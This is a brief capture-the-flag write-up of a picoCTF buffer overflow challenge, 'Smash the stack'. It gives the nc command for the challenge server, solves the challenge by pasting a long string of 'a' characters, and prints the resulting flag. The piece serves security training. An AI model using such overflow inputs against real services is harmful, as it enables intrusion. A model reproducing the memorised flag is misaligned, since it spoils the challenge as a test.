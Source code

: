 Smash the stack

Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/526/vuln). You 
can view source [here](https://artifacts.picoctf.net/c/526/vuln.c). And connect with it using:

`nc saturn.picoctf.net 57331`

Being the first of the series challenge it's very easy to solve. Just paste in many characters into the program and you'll get the flag:

`Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`

`picoCTF{ov3rfl0ws_ar3nt_that_bad_9d9ee6b9}`
